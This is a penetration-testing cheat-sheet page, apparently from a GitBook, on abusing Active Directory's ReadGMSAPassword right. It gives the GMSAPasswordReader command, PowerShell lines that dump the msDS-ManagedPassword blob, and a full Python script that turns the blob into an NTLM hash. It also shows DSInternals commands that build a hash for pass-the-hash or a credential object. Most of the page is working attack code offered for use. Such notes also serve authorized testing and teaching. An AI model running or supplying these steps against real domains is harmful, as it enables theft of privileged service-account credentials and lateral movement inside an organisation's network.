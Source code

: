 # GMSAPasswordRead

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

{% embed url="https://github.com/expl0itabl3/Toolies" %}

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_account'
```

### Remotely Read GMSA Passwords

Retrieve hash remotely if we can't WinRM

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### Manually from gMSADumper

```powershell
(Get-ADServiceAccount -Identity 'SVC_ACCOUNT' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword' > blob.txt
```

```powershell
(Get-Content 'blob.txt') -join ','
1,0,0,0,36,2,0,0,16,0,18,1,......
```

{% code title="blob2hash.py" %}
```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
from binascii import hexlify
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key
import sys

data = [1,0,0,0,36,2,0,0,16,0,18,1,......]
#convert this into bytes
data = bytes(data)

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]


                    
blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(data)
currentPassword = blob['CurrentPassword'][:-2]

# Compute ntlm key
ntlm_hash = MD4.new ()
ntlm_hash.update (currentPassword)
passwd = hexlify(ntlm_hash.digest()).decode("utf-8")
                    
print(passwd)                   
```
{% endcode %}

```
python blob2hash.py
```

### Powershell

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
